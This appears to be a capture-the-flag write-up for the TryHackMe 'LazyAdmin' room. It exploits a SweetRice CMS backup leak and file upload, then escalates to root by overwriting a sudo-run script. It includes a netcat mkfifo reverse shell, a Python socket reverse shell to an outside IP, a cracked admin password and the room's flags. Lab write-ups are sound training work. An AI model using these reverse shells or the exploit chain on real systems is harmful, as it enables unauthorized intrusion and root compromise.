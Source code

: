 # Tryhackme.com Room : LazyAdmin
`https://tryhackme.com/room/lazyadmin`


# Instance
```
export IP=10.10.88.11
```

# Nmap
```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

Let's browse the websiBte. It's just the default install page.

Let's gobuster `gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt  --url http://$`

We find a `asic-cms SweetRice` install at `/content`

We gobuster `/content/` `gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt  --url http://$/content`

```
/images (Status: 301)
/js (Status: 301)
/inc (Status: 301)
/as (Status: 301)
/_themes (Status: 301)
/attachment (Status: 301)
```

we find the cms version in `/content/inc/latest.txt`
```
1.5.1
```

We find this exploit `https://www.exploit-db.com/exploits/40716` to upload a file on the server.

We also find `https://www.exploit-db.com/exploits/40718` which let us download an sql backup from `/content/inc/mysql_backup`

We parse the sql file and find the admin account:
```
manager:42f749ade7f9e195bf475f37a44cafcb
```

The md5 hash encode
```
Password123
```

`/content/as` is a login page

We use these credentials to login.

We can then use the arbitraty file upload exploit to upload a php reverse shell.

We tried reverse shell from `https://github.com/pentestmonkey/php-reverse-shell` but it didn't work for some reason. We used this one `https://gist.github.com/rshipp/eee36684db07d234c1cc`

Seems like we can't upload `.php` file. The exploit suggest using `.php5` which work and give us a reverse shell


We are logged in as `www-data`
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Files in `/home/itguy`:
```
drwxr-xr-x 18 itguy itguy 4096 Nov 30  2019 .
drwxr-xr-x  3 root  root  4096 Nov 29  2019 ..
-rw-------  1 itguy itguy 1630 Nov 30  2019 .ICEauthority
-rw-------  1 itguy itguy   53 Nov 30  2019 .Xauthority
lrwxrwxrwx  1 root  root     9 Nov 29  2019 .bash_history -> /dev/null
-rw-r--r--  1 itguy itguy  220 Nov 29  2019 .bash_logout
-rw-r--r--  1 itguy itguy 3771 Nov 29  2019 .bashrc
drwx------ 13 itguy itguy 4096 Nov 29  2019 .cache
drwx------ 14 itguy itguy 4096 Nov 29  2019 .config
drwx------  3 itguy itguy 4096 Nov 29  2019 .dbus
-rw-r--r--  1 itguy itguy   25 Nov 29  2019 .dmrc
drwx------  2 itguy itguy 4096 Nov 29  2019 .gconf
drwx------  3 itguy itguy 4096 Nov 30  2019 .gnupg
drwx------  3 itguy itguy 4096 Nov 29  2019 .local
drwx------  5 itguy itguy 4096 Nov 29  2019 .mozilla
-rw-------  1 itguy itguy  149 Nov 29  2019 .mysql_history
drwxrwxr-x  2 itguy itguy 4096 Nov 29  2019 .nano
-rw-r--r--  1 itguy itguy  655 Nov 29  2019 .profile
-rw-r--r--  1 itguy itguy    0 Nov 29  2019 .sudo_as_admin_successful
-rw-r-----  1 itguy itguy    5 Nov 30  2019 .vboxclient-clipboard.pid
-rw-r-----  1 itguy itguy    5 Nov 30  2019 .vboxclient-display.pid
-rw-r-----  1 itguy itguy    5 Nov 30  2019 .vboxclient-draganddrop.pid
-rw-r-----  1 itguy itguy    5 Nov 30  2019 .vboxclient-seamless.pid
-rw-------  1 itguy itguy   82 Nov 30  2019 .xsession-errors
-rw-------  1 itguy itguy   82 Nov 29  2019 .xsession-errors.old
drwxr-xr-x  2 itguy itguy 4096 Nov 29  2019 Desktop
drwxr-xr-x  2 itguy itguy 4096 Nov 29  2019 Documents
drwxr-xr-x  2 itguy itguy 4096 Nov 29  2019 Downloads
drwxr-xr-x  2 itguy itguy 4096 Nov 29  2019 Music
drwxr-xr-x  2 itguy itguy 4096 Nov 29  2019 Pictures
drwxr-xr-x  2 itguy itguy 4096 Nov 29  2019 Public
drwxr-xr-x  2 itguy itguy 4096 Nov 29  2019 Templates
drwxr-xr-x  2 itguy itguy 4096 Nov 29  2019 Videos
-rw-r--r-x  1 root  root    47 Nov 29  2019 backup.pl
-rw-r--r--  1 itguy itguy 8980 Nov 29  2019 examples.desktop
-rw-rw-r--  1 itguy itguy   16 Nov 29  2019 mysql_login.txt
-rw-rw-r--  1 itguy itguy   38 Nov 29  2019 user.txt
```

User flag `cat /home/itguy/user.txt`:
```
THM{63e5bce9271952aad1113b6f1ac28a07}
```


`sudo -l` give us
```
(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```
We can run `/home/itguy/backup.pl` as root

The script contains:
```
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

`/etc/copy.sh` contains
```
rm /tmp/f;
mkfifo /tmp/f;
cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.0.190 5554 > /tmp/f
```


Seems like we can write to `/etc/copy.sh`

We write


```
echo "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.240.128\",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'" > /etc/copy.sh
```

We execute the script
```
sudo /usr/bin/perl /home/itguy/backup.pl
```

Anddd im root
```
uid=0(root) gid=0(root) groups=0(root)
```

`cat /root/root.txt` :
```
THM{6637f41d0177b6f37cb20d775124699f}
```